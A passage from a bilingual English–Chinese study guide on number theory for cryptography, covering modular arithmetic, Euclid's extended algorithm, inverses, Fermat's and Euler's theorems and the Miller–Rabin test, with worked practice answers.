- \(b\mid g\) and \(b\mid h\) imply \(b\mid(mg+nh)\) for all integers \(m\) and \(n\). Example: \(7\mid14\) and \(7\mid63\), so \(7\mid3\times14+2\times63=168=7\times24\).\(b\mid g\) 和 \(b\mid h\) 蕴含 \(b\mid(mg+nh)\)，对所有整数 \(m\) 和 \(n\) 都成立。例如：\(7\mid14\) 和 \(7\mid63\)，所以 \(7\mid3\times14+2\times63=168=7\times24\)。
Step 2: congruence and modular operations第 2 步：同余与模运算
In words: a ≡ b (mod n) says that a and b leave the same remainder when divided by n.用文字表述：a ≡ b (mod n) 表示 a 和 b 除以 n 的余数相同。
For \(n>0\) the integers \(a\) and \(b\) are congruent（同余）modulo \(n\), written \(a\equiv b \pmod n\), if \(a \bmod n=b \bmod n\). Equivalently \(n\mid(a-b)\), that is \(a=b+kn\) for an integer \(k\). Example: \(73\equiv4 \pmod{23}\) because \(73-4=69=3\times23\).对于 \(n>0\)，整数 \(a\) 与 \(b\) 模 \(n\) 同余，记作 \(a\equiv b \pmod n\)，如果 \(a \bmod n=b \bmod n\)。等价地，\(n\mid(a-b)\)，即存在整数 \(k\) 使得 \(a=b+kn\)。例如 \(73\equiv4 \pmod{23}\)，因为 \(73-4=69=3\times23\)。
The two uses of "mod" differ. \(a \bmod n\) is an operator: its value is a number from 0 to \(n-1\). \(a\equiv b \pmod n\) is a statement that is true or false. Congruence sorts the integers into \(n\) residue classes（剩余类）. Modulo 4 the class of 1 is \(\dots,-7,-3,1,5,9,\dots\). The set \(\mathbb{Z}_n=\{0,1,\dots,n-1\}\) holds the smallest nonnegative member of each class.“mod”的两种用法不同。\(a \bmod n\) 是一个运算符，它的值是 0 到 \(n-1\) 之间的一个数。\(a\equiv b \pmod n\) 是一个陈述，只能为真或假。同余把整数分成 \(n\) 个剩余类。模 4 时，1 所在的类是 \(\dots,-7,-3,1,5,9,\dots\)。集合 \(\mathbb{Z}_n=\{0,1,\dots,n-1\}\) 包含每个类中最小的非负元素。
Why it works: write \(a=r_a+jn\) and \(b=r_b+kn\). All multiples of \(n\) vanish modulo \(n\).原因：写出 \(a=r_a+jn\) 和 \(b=r_b+kn\)。\(n\) 的所有倍数模 \(n\) 都化为 0。
Step 3: powers by repeated squaring第 3 步：用重复平方求幂
In words: to compute a power modulo n, square again and again, reduce each time, and multiply together the squares that match the 1 bits of the exponent.用文字表述：要模 n 求幂，就反复平方，每次都取模，再把与指数中 1 比特对应的那些平方乘起来。
This is the standard way to compute a large power by hand. The full method with a trace is in Section 9.3. Example: \(11^7 \bmod 13\). Since \(7=111_2\), we have \(11^7=11\times11^2\times11^4\). Now \(11^2=121\equiv4\) and \(11^4\equiv4^2=16\equiv3 \pmod{13}\). So \(11^7\equiv11\times4\times3=132\equiv2 \pmod{13}\).这是手工计算大幂的标准方法，带有完整过程的方法见第 9.3 节。例如：\(11^7 \bmod 13\)。由于 \(7=111_2\)，我们有 \(11^7=11\times11^2\times11^4\)。然后 \(11^2=121\equiv4\) 和 \(11^4\equiv4^2=16\equiv3 \pmod{13}\)。所以 \(11^7\equiv11\times4\times3=132\equiv2 \pmod{13}\)。
Step 4: inverses and the cancellation law第 4 步：逆元与约去律
In words: modulo n you can divide by w only if w and n are relatively prime.用文字表述：在模 n 下，只有当 w 与 n 互素时才能除以 w。
Addition has no problem: every \(w\) has an additive inverse \(-w\). A multiplicative inverse（乘法逆元）\(w^{-1}\) satisfies \(w\,w^{-1}\equiv1 \pmod n\). It exists if and only if \(\gcd(w,n)=1\) (proved in Section 3.2). Modulo 8:加法没有问题：每个 \(w\) 都有加法逆元 \(-w\)。乘法逆元 \(w^{-1}\) 满足 \(w\,w^{-1}\equiv1 \pmod n\)，它存在当且仅当 \(\gcd(w,n)=1\)（证明见第 3.2 节）。下面是模 8 的例子：
| \(w\) | 0 | 1 | 2 | 3 | 4 | 5 | 6 | 7 |
|---|---|---|---|---|---|---|---|---|
| \(-w\) | 0 | 7 | 6 | 5 | 4 | 3 | 2 | 1 |
| \(w^{-1}\) | – | 1 | – | 3 | – | 5 | – | 7 |
For a prime modulus every nonzero element has an inverse. Cancelling a factor means multiplying by its inverse, so the cancellation law follows.模数为素数时，每个非零元都有逆元。约去一个因子就是乘以它的逆元，因此得到 消去律。
- \(a+b\equiv a+c \pmod n\) always gives \(b\equiv c \pmod n\).\(a+b\equiv a+c \pmod n\) 总是得到 \(b\equiv c \pmod n\)。
- \(ab\equiv ac \pmod n\) gives \(b\equiv c \pmod n\) only if \(\gcd(a,n)=1\). In general it gives \(b\equiv c \pmod{n/d}\) with \(d=\gcd(a,n)\).\(ab\equiv ac \pmod n\) 只有在 \(\gcd(a,n)=1\) 时才得到 \(b\equiv c \pmod n\)。一般情况下，它得到 \(b\equiv c \pmod{n/d}\)，并且 \(d=\gcd(a,n)\)。
Counterexample: \(6\times3=18\equiv2\) and \(6\times7=42\equiv2 \pmod 8\), but \(3\not\equiv7\). Multiplying \(0,1,\dots,7\) by 6 gives \(0,6,4,2,0,6,4,2\): values repeat. Multiplying by 5 gives \(0,5,2,7,4,1,6,3\): every residue appears once. This permutation property is the heart of the proofs in Section 3.3.反例：\(6\times3=18\equiv2\) 和 \(6\times7=42\equiv2 \pmod 8\)，但 \(3\not\equiv7\)。把 \(0,1,\dots,7\) 乘以 6 得到 \(0,6,4,2,0,6,4,2\)，数值有重复。乘以 5 得到 \(0,5,2,7,4,1,6,3\)，每个剩余都只出现一次。这种置换性质是第 3.3 节证明的核心。
Practice练习
Q1. (Calculation) Compute (a) \(-29 \bmod 8\); (b) \((123\cdot456) \bmod 7\) by reducing the factors first; (c) \(7^{13} \bmod 11\) by repeated squaring.Q1. （计算）求 (a) \(-29 \bmod 8\)；(b) 先约化各因子后求 \((123\cdot456) \bmod 7\)；(c) 用重复平方法求 \(7^{13} \bmod 11\)。
Answer
(a) \(-29=(-4)\cdot8+3\), so \(-29 \bmod 8=3\). (b) \(123=17\cdot7+4\) and \(456=65\cdot7+1\), so the product is \(\equiv4\cdot1=4\pmod7\). (c) \(13=1101_2\); \(7^2=49\equiv5\), \(7^4\equiv25\equiv3\), \(7^8\equiv9\pmod{11}\), so \(7^{13}=7^8\cdot7^4\cdot7\equiv9\cdot3\cdot7=189\equiv2\).(a) \(-29=(-4)\cdot8+3\)，因此 \(-29 \bmod 8=3\)。(b) \(123=17\cdot7+4\) 与 \(456=65\cdot7+1\)，因此乘积为 \(\equiv4\cdot1=4\pmod7\)。(c) \(13=1101_2\)；\(7^2=49\equiv5\)、\(7^4\equiv25\equiv3\)、\(7^8\equiv9\pmod{11}\)，因此 \(7^{13}=7^8\cdot7^4\cdot7\equiv9\cdot3\cdot7=189\equiv2\)。
易错：负数取模的余数仍在 0 到 n−1 之间。
Q2. (True or false) "If \(4a\equiv4b\pmod{12}\) then \(a\equiv b\pmod{12}\)." Decide, and state the correct conclusion.Q2. （判断）“若 \(4a\equiv4b\pmod{12}\)，则 \(a\equiv b\pmod{12}\)。”判断其真假，并给出正确的结论。
Answer
False: \(4\cdot2=8\equiv20=4\cdot5\pmod{12}\) but \(2\not\equiv5\). Since \(\gcd(4,12)=4\ne1\), 4 has no inverse modulo 12 and cannot be cancelled. In general, \(ab\equiv ac\pmod n\) implies \(b\equiv c\pmod{n/d}\) with \(d=\gcd(a,n)\): from \(n\mid a(b-c)\) divide by \(d\) to get \(\tfrac nd\mid\tfrac ad(b-c)\), and \(\tfrac nd\) is coprime to \(\tfrac ad\). Here \(a\equiv b\pmod3\), and indeed \(2\equiv5\pmod3\).错误：\(4\cdot2=8\equiv20=4\cdot5\pmod{12}\) 但 \(2\not\equiv5\)。由于 \(\gcd(4,12)=4\ne1\)，4 在模 12 下没有逆元，因而不能消去。一般地，\(ab\equiv ac\pmod n\) 蕴含 \(b\equiv c\pmod{n/d}\)，其中 \(d=\gcd(a,n)\)：由 \(n\mid a(b-c)\) 除以 \(d\) 得到 \(\tfrac nd\mid\tfrac ad(b-c)\)，并且 \(\tfrac nd\) 与 \(\tfrac ad\) 互素。这里 \(a\equiv b\pmod3\)，且确实 \(2\equiv5\pmod3\)。
Q3. (Proof) Show that every integer is congruent modulo 9 to the sum of its decimal digits, and use this to test the claim \(4382\times917=4018094\).Q3. （证明）证明每个整数模 9 都与其十进制各位数字之和同余，并利用这一结论检验断言 \(4382\times917=4018094\)。
Answer
Since \(10\equiv1\pmod9\), \(10^i\equiv1\), so \(N=\sum d_i10^i\equiv\sum d_i\pmod9\). Digit sums: \(4382\to17\equiv8\) and \(917\to17\equiv8\), so the product must be \(\equiv64\equiv1\pmod9\). But \(4018094\) has digit sum \(26\equiv8\), so the claim is false (the true product is \(4018294\), digit sum \(28\equiv1\)). A matching residue would not prove a product correct.由于 \(10\equiv1\pmod9\)，\(10^i\equiv1\)，因此 \(N=\sum d_i10^i\equiv\sum d_i\pmod9\)。各位数字和分别为 \(4382\to17\equiv8\) 与 \(917\to17\equiv8\)，因此乘积应为 \(\equiv64\equiv1\pmod9\)。但 \(4018094\) 的各位数字和为 \(26\equiv8\)，因此该断言为假（真正的乘积为 \(4018294\)，其各位数字和为 \(28\equiv1\)）。余数相符并不能证明乘积正确。
The Euclidean algorithm and modular inverses ★★★欧几里得算法与模逆元
Goal. Trace Euclid's algorithm with every division written down. Find \(x\) and \(y\) with \(ax+by=\gcd(a,b)\), decide whether an inverse exists, and solve \(ax\equiv b \pmod n\).目标。 手工演算欧几里得算法，把每一步除法都写出来。求出满足 \(ax+by=\gcd(a,b)\) 的 \(x\) 和 \(y\)，判断逆元是否存在，并求解 \(ax\equiv b \pmod n\)。
Step 1: Euclid's algorithm第 1 步：欧几里得算法
In words: replace the pair (a, b) by (b, remainder of a divided by b) until the remainder is 0; the last nonzero remainder is the gcd.用文字表述：把数对 (a, b) 换成 (b, a 除以 b 的余数)，直到余数为 0；最后一个非零余数就是 gcd。
The greatest common divisor（最大公约数）ignores signs: \(\gcd(a,b)=\gcd(\lvert a\rvert,\lvert b\rvert)\) and \(\gcd(a,0)=\lvert a\rvert\). Example: \(\gcd(60,-24)=12\).最大公约数 忽略符号：\(\gcd(a,b)=\gcd(\lvert a\rvert,\lvert b\rvert)\) 和 \(\gcd(a,0)=\lvert a\rvert\)。例如：\(\gcd(60,-24)=12\)。
How to do it by hand: 1. Divide \(a\) by \(b\) and write \(a=qb+r\). 2. Replace \((a,b)\) by \((b,r)\). 3. Stop when \(r=0\). The remainders strictly decrease, so the algorithm stops, after about \(\log b\) divisions.手算方法：1. 用 \(a\) 除以 \(b\)，写下 \(a=qb+r\)。2. 用 \((b,r)\) 替换 \((a,b)\)。3. 当 \(r=0\) 时停止。余数严格递减，所以算法一定会停止，大约做 \(\log b\) 次除法。
Euclid(a, b):
if b = 0 then return a
else return Euclid(b, a mod b)
Trace for \(a=710\) and \(b=310\):\(a=710\) 和 \(b=310\) 的演算过程：
| Step步骤 | Division除法 | Quotient商 | Remainder余数 |
|---|---|---|---|
| 1 | \(710=2\times310+90\) | 2 | 90 |
| 2 | \(310=3\times90+40\) | 3 | 40 |
| 3 | \(90=2\times40+10\) | 2 | 10 |
| 4 | \(40=4\times10+0\) | 4 | 0 |
The last nonzero remainder is 10, so \(\gcd(710,310)=10\).最后一个非零余数是 10，所以 \(\gcd(710,310)=10\)。
Step 2: the extended algorithm第 2 步：扩展算法
In words: run Euclid, and write every remainder as a combination of a and b; the last nonzero remainder then gives ax + by = gcd(a, b).用文字表述：运行欧几里得算法，把每个余数都写成 a 与 b 的组合；最后一个非零余数于是给出 ax + by = gcd(a, b)。
The equation \(ax+by=d\) with \(d=\gcd(a,b)\) is the Bézout identity（裴蜀等式）. The numbers \(x\) and \(y\) have opposite signs.等式 \(ax+by=d\)（条件是 \(d=\gcd(a,b)\)）称为 裴蜀等式。数 \(x\) 和 \(y\) 符号相反。
Example for \(a=1759\) and \(b=550\):\(a=1759\) 和 \(b=550\) 的例子：
| \(i\) | \(r_i\) | \(q_i\) | \(x_i\) | \(y_i\) |
|---|---|---|---|---|
| −1 | 1759 | 1 | 0 | |
| 0 | 550 | 0 | 1 | |
| 1 | 109 | 3 | 1 | −3 |
| 2 | 5 | 5 | −5 | 16 |
| 3 | 4 | 21 | 106 | −339 |
| 4 | 1 | 1 | −111 | 355 |
| 5 | 0 | 4 |
The last nonzero remainder gives \(d=1\), \(x=-111\) and \(y=355\). Check: \(1759\times(-111)+550\times355=-195249+195250=1\).最后一个非零余数给出 \(d=1\)、\(x=-111\) 和 \(y=355\)。验算：\(1759\times(-111)+550\times355=-195249+195250=1\)。
Step 3: modular inverses第 3 步：模逆元
In words: if a times x plus n times y equals 1, then x is the inverse of a modulo n.用文字表述：如果 a 乘以 x 再加上 n 乘以 y 等于 1，那么 x 就是 a 模 n 的逆元。
From the table above, \(550^{-1}\equiv355 \pmod{1759}\). Another case: \(7^{-1} \bmod 160=23\), because \(160\times(-1)+7\times23=1\). This is an RSA key computation (Section 9.2).由上表得到 \(550^{-1}\equiv355 \pmod{1759}\)。另一个例子：\(7^{-1} \bmod 160=23\)，因为 \(160\times(-1)+7\times23=1\)。这是一个 RSA 密钥的计算（见第 9.2 节）。
Step 4: linear congruences ax ≡ b (mod n)第 4 步：线性同余式 ax ≡ b (mod n)
In words: the equation has no solution unless gcd(a, n) divides b; if it does, it has exactly gcd(a, n) solutions modulo n.用文字表述：除非 gcd(a, n) 整除 b，否则方程无解；如果整除，则模 n 下恰有 gcd(a, n) 个解。
Let \(d=\gcd(a,n)\). How to do it by hand:设 \(d=\gcd(a,n)\)。手算方法：
- If \(d\nmid b\), there is no solution.如果 \(d\nmid b\)，则无解。
- If \(d\mid b\), divide \(a\), \(b\) and \(n\) by \(d\). This gives \(a'x\equiv b' \pmod{n'}\) with \(\gcd(a',n')=1\).如果 \(d\mid b\)，则把 \(a\)、\(b\) 和 \(n\) 都除以 \(d\)。这样得到 \(a'x\equiv b' \pmod{n'}\)，并且 \(\gcd(a',n')=1\)。
- Compute \(x_0=b'\,a'^{-1} \bmod n'\).计算 \(x_0=b'\,a'^{-1} \bmod n'\)。
- The \(d\) solutions modulo \(n\) are \(x_0+jn'\) for \(j=0,\dots,d-1\).模 \(n\) 的 \(d\) 个解是 \(x_0+jn'\)，其中 \(j=0,\dots,d-1\)。
Example: \(6x\equiv4 \pmod{10}\). Here \(d=2\) divides 4. Dividing by 2 gives \(3x\equiv2 \pmod 5\). Since \(3^{-1}=2\), \(x_0=4\). The solutions are \(4\) and \(9\). Check: \(6\times9=54\equiv4\).例：\(6x\equiv4 \pmod{10}\)。这里 \(d=2\) 整除 4。两边除以 2 得到 \(3x\equiv2 \pmod 5\)。由于 \(3^{-1}=2\)，所以 \(x_0=4\)。解为 \(4\) 和 \(9\)。验算：\(6\times9=54\equiv4\)。
Practice练习
Q1. (Trace) Compute \(\gcd(72345,43215)\) and \(\gcd(10292,3486)\) with Euclid's algorithm.Q1. （手工演算）用欧几里得算法计算 \(\gcd(72345,43215)\) 与 \(\gcd(10292,3486)\)。
Answer
\(72345=1\cdot43215+29130\); \(43215=1\cdot29130+14085\); \(29130=2\cdot14085+960\); \(14085=14\cdot960+645\); \(960=1\cdot645+315\); \(645=2\cdot315+15\); \(315=21\cdot15+0\). So \(\gcd=15\).\(72345=1\cdot43215+29130\)；\(43215=1\cdot29130+14085\)；\(29130=2\cdot14085+960\)；\(14085=14\cdot960+645\)；\(960=1\cdot645+315\)；\(645=2\cdot315+15\)；\(315=21\cdot15+0\)。因此 \(\gcd=15\)。
\(10292=2\cdot3486+3320\); \(3486=1\cdot3320+166\); \(3320=20\cdot166+0\). So \(\gcd=166\).\(10292=2\cdot3486+3320\)；\(3486=1\cdot3320+166\)；\(3320=20\cdot166+0\)。因此 \(\gcd=166\)。
Q2. (Calculation) Find \(135^{-1} \bmod 61\) with the extended algorithm, and decide whether \(42828\) has an inverse modulo \(6407\).Q2. （计算）用扩展算法求 \(135^{-1} \bmod 61\)，并判断 \(42828\) 在模 \(6407\) 下是否存在逆元。
Answer
\(135\equiv13\pmod{61}\). Run on \((61,13)\): \(61=4\cdot13+9\), \(13=1\cdot9+4\), \(9=2\cdot4+1\), \(4=4\cdot1+0\). The pairs \((x,y)\) are \((1,0),(0,1)\to(1,-4)\to(-1,5)\to(3,-14)\), so \(61\cdot3+13\cdot(-14)=1\). The coefficient of 13 is \(-14\), hence \(135^{-1}\equiv13^{-1}\equiv-14\equiv47\). Check: \(135\cdot47=6345=104\cdot61+1\).\(135\equiv13\pmod{61}\)。对 \((61,13)\) 运行：\(61=4\cdot13+9\)、\(13=1\cdot9+4\)、\(9=2\cdot4+1\)、\(4=4\cdot1+0\)。各数对 \((x,y)\) 为 \((1,0),(0,1)\to(1,-4)\to(-1,5)\to(3,-14)\)，因此 \(61\cdot3+13\cdot(-14)=1\)。13 的系数为 \(-14\)，故 \(135^{-1}\equiv13^{-1}\equiv-14\equiv47\)。验证：\(135\cdot47=6345=104\cdot61+1\)。
For \(42828\): \(42828=6\cdot6407+4386\); \(6407=1\cdot4386+2021\); \(4386=2\cdot2021+344\); \(2021=5\cdot344+301\); \(344=1\cdot301+43\); \(301=7\cdot43\). The gcd is \(43\ne1\), so no inverse exists.对于 \(42828\)：\(42828=6\cdot6407+4386\)；\(6407=1\cdot4386+2021\)；\(4386=2\cdot2021+344\)；\(2021=5\cdot344+301\)；\(344=1\cdot301+43\)；\(301=7\cdot43\)。最大公约数为 \(43\ne1\)，因此不存在逆元。
Q3. (Beyond the text) How many solutions modulo 35 do \(14x\equiv21\) and \(14x\equiv20\) have? Find them.Q3. （课外内容）模 35 下，\(14x\equiv21\) 与 \(14x\equiv20\) 各有多少个解？求出它们。
Answer
\(d=\gcd(14,35)=7\). For \(14x\equiv20\): \(7\nmid20\), so there is no solution. For \(14x\equiv21\): \(7\mid21\), so there are 7 solutions modulo 35. Dividing by 7 gives \(2x\equiv3\pmod5\); since \(2^{-1}=3\), \(x\equiv9\equiv4\pmod5\). The solutions are \(x=4,9,14,19,24,29,34\).\(d=\gcd(14,35)=7\)。对于 \(14x\equiv20\)：\(7\nmid20\)，因此无解。对于 \(14x\equiv21\)：\(7\mid21\)，因此模 35 有 7 个解。两边除以 7 得 \(2x\equiv3\pmod5\)；由于 \(2^{-1}=3\)，\(x\equiv9\equiv4\pmod5\)。解为 \(x=4,9,14,19,24,29,34\)。
思路：先看 gcd 能否整除右边，再约去 gcd，求逆元，最后补上 d−1 个模 n/d 的平移。
Primes, Fermat's theorem and Euler's theorem ★★★素数、费马定理与欧拉定理
Goal. Compute \(\phi(n)\), reduce huge exponents with Fermat's and Euler's theorems, and take an \(e\)-th root modulo \(n\) by inverting \(e\) modulo \(\phi(n)\).目标。 计算 \(\phi(n)\)，用费马定理和欧拉定理化简很大的指数，并通过求 \(e\) 模 \(\phi(n)\) 的逆元，在模 \(n\) 下开 \(e\) 次方根。
Step 1: primes and factorisation第 1 步：素数与因式分解
An integer \(p>1\) is a prime number（素数）if its only positive divisors are 1 and \(p\). Every integer above 1 that is not prime is a composite number（合数）. The fundamental theorem of arithmetic（算术基本定理）says that every \(a>1\) factors uniquely into primes, \(a=p_1^{a_1}p_2^{a_2}\cdots p_t^{a_t}\). Here \(p_i\) is the \(i\)-th prime factor and \(a_i\ge1\) is its exponent. Example: \(3600=2^4\times3^2\times5^2\).整数 \(p>1\) 是 素数，如果它的正因数只有 1 和 \(p\) 本身。大于 1 且不是素数的整数称为 合数。算术基本定理 说，每个 \(a>1\) 都能唯一地分解为素数之积，\(a=p_1^{a_1}p_2^{a_2}\cdots p_t^{a_t}\)。这里 \(p_i\) 是第 \(i\) 个素因数，\(a_i\ge1\) 是它的指数。例：\(3600=2^4\times3^2\times5^2\)。
The gcd has the smaller exponent of each prime. Example: \(300=2^2\times3\times5^2\) and \(18=2\times3^2\) give \(\gcd=2\times3=6\). Factoring large numbers is hard, so Euclid's algorithm is the practical method.gcd 中每个素数的指数取较小者。例：\(300=2^2\times3\times5^2\) 和 \(18=2\times3^2\) 得到 \(\gcd=2\times3=6\)。大数的因式分解很难，所以欧几里得算法才是实用的方法。
Step 2: Fermat's theorem第 2 步：费马定理
In words: a prime modulus makes every power a^(p−1) of a number a that p does not divide come back to 1.用文字表述：模数是素数时，只要 p 不整除 a，幂 a^(p−1) 就回到 1。
Proof idea: multiply \(1,2,\dots,p-1\) by \(a\) modulo \(p\). No product is 0 and no two products are equal, by the cancellation law. So the products are \(1,\dots,p-1\) in a new order. Multiplying them all gives \(a^{p-1}(p-1)!\equiv(p-1)!\). Cancel \((p-1)!\).证明思路：把 \(1,2,\dots,p-1\) 乘以 \(a\)，模 \(p\)。由消去律，没有乘积为 0，也没有两个乘积相等。因此这些乘积是 \(1,\dots,p-1\) 的一个新排列。把它们全部乘起来得到 \(a^{p-1}(p-1)!\equiv(p-1)!\)。约去 \((p-1)!\)。
Step 3: Euler's totient function第 3 步：欧拉函数
In words: φ(n) counts how many of the numbers 1, …, n − 1 share no factor with n.用文字表述：φ(n) 统计 1, …, n − 1 中与 n 没有公共因子的数的个数。
The totient（欧拉函数）\(\phi(n)\) is the number of positive integers less than \(n\) that are relatively prime to \(n\), with \(\phi(1)=1\). Example: \(\phi(10)=4\), counting 1, 3, 7 and 9. For a prime \(p\) all of \(1,\dots,p-1\) count, so \(\phi(p)=p-1\).欧拉函数 \(\phi(n)\) 是小于 \(n\) 且与 \(n\) 互素的正整数的个数，其中 \(\phi(1)=1\)。例：\(\phi(10)=4\)，计入 1、3、7 和 9。对素数 \(p\) 来说，\(1,\dots,p-1\) 中的所有数都计入，因此 \(\phi(p)=p-1\)。
Examples: \(\phi(37)=36\). \(\phi(35)=\phi(5)\phi(7)=4\times6=24\). \(\phi(72)=\phi(2^3)\phi(3^2)=(8-4)(9-3)=24\).例：\(\phi(37)=36\)。\(\phi(35)=\phi(5)\phi(7)=4\times6=24\)。\(\phi(72)=\phi(2^3)\phi(3^2)=(8-4)(9-3)=24\)。
Step 4: Euler's theorem第 4 步：欧拉定理
In words: Euler's theorem is Fermat's theorem for any modulus: the exponent p − 1 becomes φ(n).用文字表述：欧拉定理就是任意模数下的费马定理：指数 p − 1 变为 φ(n)。
The proof copies Fermat's. Multiplying all \(\phi(n)\) residues that are coprime to \(n\) by \(a\) only permutes them, so the product on both sides cancels. The exponent reduction follows from writing \(k=u\phi(n)+v\): \(a^k=(a^{\phi(n)})^ua^v\equiv a^v\).证明与费马定理的证明相同。把与 \(n\) 互素的所有 \(\phi(n)\) 个剩余乘以 \(a\)，只是把它们重新排列，所以两边的乘积可以约去。指数化简来自把 \(k=u\phi(n)+v\) 写成 \(a^k=(a^{\phi(n)})^ua^v\equiv a^v\)。
| Aspect方面 | Fermat费马定理 | Euler欧拉定理 |
|---|---|---|
| Modulus模数 | prime \(p\) | any \(n\) |
| Condition条件 | \(p\nmid a\) | \(\gcd(a,n)=1\) |
| Statement结论 | \(a^{p-1}\equiv1\) | \(a^{\phi(n)}\equiv1\) |
| Form for all \(a\) | \(a^p\equiv a\) | \(a^{\phi(n)+1}\equiv a\) if \(n\) is squarefree |
| Relation关系 | special case (\(\phi(p)=p-1\)) | general theorem一般定理 |
Practice练习
Q1. (Calculation) Compute \(\phi(72)\), \(\phi(100)\), \(\phi(455)\) and \(\phi(616)\).Q1. （计算）求 \(\phi(72)\)、\(\phi(100)\)、\(\phi(455)\) 与 \(\phi(616)\)。
Answer
\(72=2^3\cdot3^2\): \(\phi=(8-4)(9-3)=24\). \(100=2^2\cdot5^2\): \(\phi=(4-2)(25-5)=40\). \(455=5\cdot7\cdot13\): \(\phi=4\cdot6\cdot12=288\). \(616=2^3\cdot7\cdot11\): \(\phi=4\cdot6\cdot10=240\).
Q2. (Calculation) Find (a) \(4^{225} \bmod 13\); (b) \(9^{101} \bmod 10\); (c) \(x\) with \(x^{73}\equiv4\pmod{37}\), without searching.Q2. （计算）求 (a) \(4^{225} \bmod 13\)；(b) \(9^{101} \bmod 10\)；(c) 在 \(x^{73}\equiv4\pmod{37}\) 的条件下求 \(x\)，无需搜索。
Answer
(a) \(225=18\cdot12+9\), so \(4^{225}\equiv4^9\); \(4^2\equiv3\), \(4^4\equiv9\), \(4^8\equiv81\equiv3\), so \(4^9\equiv12\). (b) \(\phi(10)=4\) and \(101=25\cdot4+1\), so \(9^{101}\equiv9\). (c) \(x\) is coprime to 37 (otherwise \(x^{73}\equiv0\)), so \(x^{36}\equiv1\) and \(x^{73}=(x^{36})^2x\equiv x\). Hence \(x=4\).(a) \(225=18\cdot12+9\)，因此 \(4^{225}\equiv4^9\)；\(4^2\equiv3\)、\(4^4\equiv9\)、\(4^8\equiv81\equiv3\)，因此 \(4^9\equiv12\)。(b) \(\phi(10)=4\) 与 \(101=25\cdot4+1\)，因此 \(9^{101}\equiv9\)。(c) \(x\) 与 37 互素（否则 \(x^{73}\equiv0\)），因此 \(x^{36}\equiv1\) 且 \(x^{73}=(x^{36})^2x\equiv x\)。故 \(x=4\)。
Q3. (Beyond the text) Solve \(x^7\equiv5\pmod{33}\) without searching.Q3. （课外内容）不做搜索，求解 \(x^7\equiv5\pmod{33}\)。
Answer
\(\phi(33)=20\) and \(\gcd(7,20)=1\); \(7\cdot3=21\equiv1\pmod{20}\). Since \(x^7\equiv5\), \(x\) is coprime to 33, and raising to the power 3 gives \(x^{21}=x^{20}x\equiv x\). So \(x\equiv5^3=125\equiv26\pmod{33}\); check \(26^7\equiv5\). Inverting the exponent modulo \(\phi(n)\) is exactly RSA decryption with \(n=33\), \(e=7\), \(d=3\) (Chapter 9).\(\phi(33)=20\) 与 \(\gcd(7,20)=1\)；\(7\cdot3=21\equiv1\pmod{20}\)。由于 \(x^7\equiv5\)，\(x\) 与 33 互素，取 3 次幂得到 \(x^{21}=x^{20}x\equiv x\)。因此 \(x\equiv5^3=125\equiv26\pmod{33}\)；验证 \(26^7\equiv5\)。在模 \(\phi(n)\) 下对指数求逆，正是取 \(n=33\)、\(e=7\)、\(d=3\) 时的 RSA 解密（见第 9 章）。
思路：指数 e 模 φ(n) 的逆元 d 满足 ed ≡ 1，两边取 d 次幂即可开 e 次方根。
Primality testing: Miller–Rabin ★★素性检验：Miller–Rabin
Goal. Apply the Miller–Rabin test to a small number by hand, state what its two answers prove, and give the error bound and the expected number of candidates for a prime.目标。 手工对一个小数应用 Miller–Rabin 算法，说明它的两种结果各能证明什么，并给出错误界，以及找到一个素数平均需要检验的候选数。
Step 1: the test第 1 步：检测过程
In words: a prime n makes the chain a^q, a^(2q), a^(4q), … either start at 1 or pass through −1; if a chain does neither, n is composite.用文字表述：若 n 为素数，链 a^q, a^(2q), a^(4q), … 要么以 1 开始，要么经过 −1；如果一条链两者都不满足，则 n 是合数。
Write \(n-1=2^kq\) with \(q\) odd: halve \(n-1\) until it is odd. Pick a base \(a\) with \(1<a<n-1\). For a prime \(n\), either \(a^q\equiv1 \pmod n\), or \(a^{2^jq}\equiv-1 \pmod n\) for some \(j\) with \(0\le j\le k-1\). If neither holds, \(n\) is composite and \(a\) is a witness（合数见证者）. If the test passes, \(n\) is probably prime. A composite number that passes is fooled by a liar base.把 \(n-1=2^kq\) 写成 \(q\)，要求后一个因子为奇数：反复把 \(n-1\) 减半，直到它为奇数。选取底 \(a\)，满足 \(1<a<n-1\)。若 \(n\) 为素数，则要么 \(a^q\equiv1 \pmod n\)，要么对某个满足 \(0\le j\le k-1\) 的 \(j\) 有 \(a^{2^jq}\equiv-1 \pmod n\)。两者都不成立时，\(n\) 是合数，\(a\) 是一个 合数见证者。若检测通过，则 \(n\) 很可能是素数。合数若能通过检测，就是被一个 说谎者底欺骗了。
TEST(n):
1. find k > 0 and odd q with n - 1 = 2^k * q
2. pick a random integer a with 1 < a < n - 1
3. if a^q mod n = 1 then return "inconclusive"
4. for j = 0 to k - 1:
5. if a^(2^j * q) mod n = n - 1 then return "inconclusive"
6. return "composite"
Compute \(a^q\) by repeated squaring, then square each entry to get the next.用反复平方法计算 \(a^q\)，然后对每一项再平方，得到下一项。
Step 2: reliability and prime generation第 2 步：可靠性与素数生成
"Composite" is always correct. "Inconclusive" can be wrong. At most a quarter of the bases are liars for an odd composite \(n\), which gives the bound below.“合数”结论总是正确的，“不确定”结论可能出错。对于奇合数 \(n\)，至多四分之一的底是说谎者，由此得到下面的界。
To generate a prime, pick a random odd number of the wanted size, run the test with fresh bases, and start again at the first "composite" (Section 9.4).要生成素数，先随机选取一个所需大小的奇数，用新的底运行检测；一遇到第一个“合数”结论，就从头再选（见第 9.4 节）。
| Test检验 | Result结果 | Error错误 | Practical use实际用途 |
|---|---|---|---|
| Trial division试除法 | exact精确 | none无 | infeasible for large \(n\) |
| Fermat test (\(a^{n-1}\equiv1\)?) | probabilistic概率性 | fooled by Carmichael numbers会被卡迈克尔数欺骗 | fast but unreliable快但不可靠 |
| Miller–Rabin | probabilistic, one-sided概率性，单侧错误 | at most \(4^{-t}\) for every odd composite对每个奇合数至多为 \(4^{-t}\) | fast; the standard choice快速；标准选择 |
| AKS | deterministic确定性 | none无 | polynomial time, slower in practice多项式时间，实际较慢 |
Practice练习
Q1. (Trace) Apply TEST to \(n=91\) with \(a=10\) and with \(a=2\).Q1. （手工演算）对 \(n=91\) 分别取底 \(a=10\) 和 \(a=2\) 运行 TEST。
Answer
